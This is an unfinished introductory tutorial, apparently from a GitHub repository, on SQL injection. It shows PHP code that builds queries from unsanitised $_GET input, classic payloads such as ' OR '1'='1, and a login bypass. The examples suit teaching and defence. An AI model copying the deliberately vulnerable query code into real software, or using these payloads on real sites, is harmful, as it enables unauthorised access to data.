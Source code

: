# SQL INJECTION - LESSON 0

What is SQL Injection?
SQL Injection (SQLi) is a type of code injection technique, used to attack data-driven applications, that makes it possible to execute malicious SQL statements.

First public discussion about SQL injection appeared in 1998 on [Phrack Magazine](http://phrack.org/issues/54/8.html#article).

SQLi exploits a security vulnerability in application's software, based on weak
or absence of validation of the user inputs.

Using an SQLi allows attackers to spoof identity, tamper existing data, dump,
edit and delete all data, execute administration operation on DBMS and in
particular circumstances allows an attacker to obtain LFI or RCE on a system.

Usually an SQLi attack happens on Web applications but the only requirement
is that an input controlled by the end-user (like a search input form, a login
form, etc.) is used to create a query that will be executed on the DBMS.

## ' OR 1=1

The first basic way to check if an application is vulnerable to SQLi is to try
to break query syntax.

#### Example 0.1
Given this PHP code:
```php

  $sql = "SELECT * FROM pages WHERE id = " . $_GET['id'];
  $result = $conn->query($sql);
  while($row = $result->fetch_array()){
    print_r($row);
  }

```

If we use `$_GET['id'] = 1` we will get the page with id `1` from the DB, but
what happens if we pass `1'` as value?
```
  #1064 - You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''
```

BOOM! We broke the syntax and got an error. But What happened?
Let's see the query that is created :
```
  SELECT * FROM pages WHERE id = 1'
```

The DBMS was expecting an ending quote ' that is not present and this produce a
syntax error.
This is useful to understand that what we are injecting in the query was
interpreted as part of the SQL statement and not just as value that `id` should
have.
Therefore we can try to insert more complex SQL statements to see what happens:
Let's try with `$_GET[id] = 1 OR 1=1`, the query produced will be:
```
  SELECT * FROM pages WHERE id = 1 OR 1=1
```

BOOM! The produced query is legal and we will get all the pages from the DB.

The technique is basically the same if the argument is surrounded by quotes,
we just have to break the string in SQL, inject our code and be careful that the syntax is legal.

#### Example 0.2
Given this PHP code:
We have just introduced the surrounding single quotes `'` in the SQL
statement (the double quotes `"` are the PHP string delimiters).
```php

  $sql = "SELECT * FROM pages WHERE id = '" . $_GET['id'] . "'";
  $result = $conn->query($sql);
  while($row = $result->fetch_array()){
    print_r($row);
  }

```

Using `$_GET[id] = 1`, the query produced will be:
```
  SELECT * FROM pages WHERE id = '1'
```

If we use `$_GET[id] = 1' OR 1=1`, the query produced will be:
```
  SELECT * FROM pages WHERE id = '1' OR 1=1'
```
and we will get an SQL syntax error (and ending quote is missing).
But we can inject multiple quotes :)
Let's try with `$_GET[id] = 1' OR '1'='1` (please note the missing ending quote)

It will produce:
```
  SELECT * FROM pages WHERE id = '1' OR '1'='1'
```

BOOM! The produced query is legal and we will get all the pages from the DB.

## LOGIN BYPASS
The technique described in the previous chapter can be useful to bypass login
screens.

#### Example 0.3
Given this PHP code:
```php

  $sql = "SELECT * FROM users
          WHERE username = '" . $_GET['username'] . "'
          AND password = '" . $_GET['password'] . "'";
  $result = mysqli_query($conn, $sql);
  $row_count = mysqli_num_rows($result);
  if ($row_count > 0) {
    echo 'Authorized';
  } else {
    echo 'Not authorized';
  }

```
If we use `$_GET['username'] = admin` and `$_GET['password'] = password` the
query produced will be:
```
  SELECT * FROM users WHERE username = 'admin' AND password = 'password'
```
The code will check if the resulting number of rows is greater than 1, so we
need a way to alter this condition.
We will try to use `$_GET['password'] = password' OR '1'='1` for the user
`admin`.
The query produced will be:
```
  SELECT * FROM users WHERE username = 'admin' AND password = 'password' OR '1' = '1'
```

BOOM! We altered the query adding a condition that is always `true`.
Because of that the resulting number of rows will be greater than `1` and we
can access to the authenticated part of code.


### COMMENTS

### NESTED QUERIES

### STACKED QUERIES


### REAL LIFE EXAMPLES

### UNSAFE EXAMPLES

### SAFE EXAMPLES

### TOOL
